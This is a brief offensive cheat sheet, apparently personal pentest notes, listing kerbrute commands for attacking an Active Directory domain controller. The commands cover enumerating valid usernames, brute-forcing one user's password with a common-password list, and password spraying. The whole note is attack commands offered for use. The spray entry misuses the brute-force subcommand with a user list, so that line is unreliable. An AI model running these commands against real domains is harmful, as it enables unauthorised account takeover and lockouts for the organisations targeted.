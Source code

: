 # kerbrute
#plateform/linux #target/remote #cat/ATTACK

## Test userlist
```
kerbrute userenum -d <domain> --dc <target> test_users.txt
```

## Bruteforce user
```
kerbrute bruteuser -d <domain> --dc <target> /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt <user>
```

## Password spray
```
kerbrute bruteuser -d <domain> --dc <target> valid_users.txt <passwd>
```
